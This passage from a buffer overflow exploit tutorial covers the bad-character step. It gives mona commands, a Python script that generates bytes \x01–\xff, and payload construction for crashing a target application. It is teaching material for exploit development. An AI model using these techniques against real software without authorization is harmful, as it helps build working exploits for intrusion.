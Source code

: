 # 6. Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated.

```
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```python
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
	print("\\x" + "{:02x}".format(x), end='')

print()
```

Put the string of bad chars before the C's in your buffer, and adjust the number of C's to compensate:

```python
badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
payload = badchars + "C" * (600-112-4-255)
```

Crash the application using this buffer, and make a note of the address to which ESP points. This can change every time you crash the application, so get into the habit of copying it from the register each time.

Use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

```
!mona compare -f C:\mona\appname\bytearray.bin -a <address>
```
